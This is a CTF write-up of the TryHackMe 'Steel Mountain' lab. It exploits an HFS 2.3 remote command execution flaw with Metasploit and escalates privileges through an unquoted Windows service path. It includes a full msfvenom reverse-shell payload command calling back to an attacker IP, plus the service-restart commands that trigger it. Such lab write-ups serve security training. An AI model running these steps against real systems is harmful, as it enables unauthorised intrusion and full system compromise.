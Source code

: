 ```yaml
---
title: "TryHackMe - Steel Mountain"
author: Nasrallah
description: ""
date: 2022-05-15 00:00:00 +0100
categories : [TryHackMe]
tags: [tryhackme, Windows, metasploit, msfvenom, usp]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Steel Mountain](https://tryhackme.com/room/steelmountain) from [TryHackMe](https://tryhackme.com). It's a windows machine running a vulnerable webserver, the vulnerability permits us to execute commands remotely, so we used an exploit to get a reverse shell. Once we're in the machine, we find a service with an unquoted service path, we create and exploit for that and use it to escalate our privileges. 

# **Enumeration**
## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```Terminal
Nmap scan report for 10.10.36.31
Host is up (0.10s latency).        
Not shown: 989 closed tcp ports (reset) 
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5 
|_http-title: Site doesn't have a title (text/html).  
| http-methods:                                                                                                                                               
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc              Microsoft Windows RPC                                                                                                      
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2022-05-15T09:46:41
|_Not valid after:  2022-11-14T09:46:41
|_ssl-date: 2022-05-16T10:19:46+00:00; 0s from scanner time.
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-05-16T10:19:42
|_  start_date: 2022-05-16T09:46:29
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:80:6a:01:02:d7 (unknown)
```

We got plenty of open ports, and we can see it's a windows machine.

## Web

Let's navigate to the webserver on port 80.

![](/assets/img/tryhackme/steel/1.png)

Let's view the source code.

![](/assets/img/tryhackme/steel/2.png)

We got the name of the employee of the month, it's Bill Harper.

On the other webserver, we see that it's running `http file server 2.3`, let's see if there is any vulnerabilities in this version.

![](/assets/img/tryhackme/steel/3.png)

There is a remote command execution vulnerability.

# **Foothold**

## Metasploit

To get foothold using `metasploit`, we can use this exploit `exploit/windows/http/rejetto_hfs_exec`.

Launch metasploit by running `msfconsole`, and run `use exploit/windows/http/rejetto_hfs_exec`.

After that, we need to specify the RHOSTS, RPORT and LHOST.
 
 - RHOSTS: is the target machine's IP.
 - RPORT : is the port of the vulnerable web server (8080).
 - LHOST : is the attacker machine's IP, tun0.

![](/assets/img/tryhackme/steel/4.png)

## Exploit

To get foothold without metasploit, we can use exploits found in [Exploit-DB](https://www.exploit-db.com/) or other places..

In this example, I'll be using this [Exploit](https://github.com/NullByte007/Exploits/blob/master/Rejetto_HFS_2.3.X_RCE/HFS_RCE.py).

![](/assets/img/tryhackme/steel/5.png)


# **Privilege Escalation**

For this part, we're going to use the script suggested in the room; [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). We'll upload it using meterpreter, and load powershell in order to execute the script.

![](/assets/img/tryhackme/steel/6.png)

Now, we need to load the script with the command `. .\PowerUp.ps1` and the execute it with `Invoke-AllCheck`.

![](/assets/img/tryhackme/steel/7.png)

We can see that the `AdvancedSystemCareService9` service has an unquoted service path, we can restart it, and have write permissions on it's folder.

Let's create an executable that would sends us a shell once it's executed.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=9999 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe`

Then we need to upload the `Advanced.exe` file to the machine, and put it in the correct folder.

![](/assets/img/tryhackme/steel/8.png)


Next, we need to setup a multi handler listener to catch the reverse shell.

![](/assets/img/tryhackme/steel/9.png)

Now, we need to restart the `AdvancedSystemCareService9` service. To do that, we have to stop it with the command `sc stop AdvancedSystemCareService9` and start it with `sc start AdvancedSystemCareService9`. All that need to happen in a windows command shell, so type `shell` in meterpreter.

![](/assets/img/tryhackme/steel/10.png)

Now if we go to our multi handler listener, we should see a windows shell, and we have system privileges.

![](/assets/img/tryhackme/steel/11.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
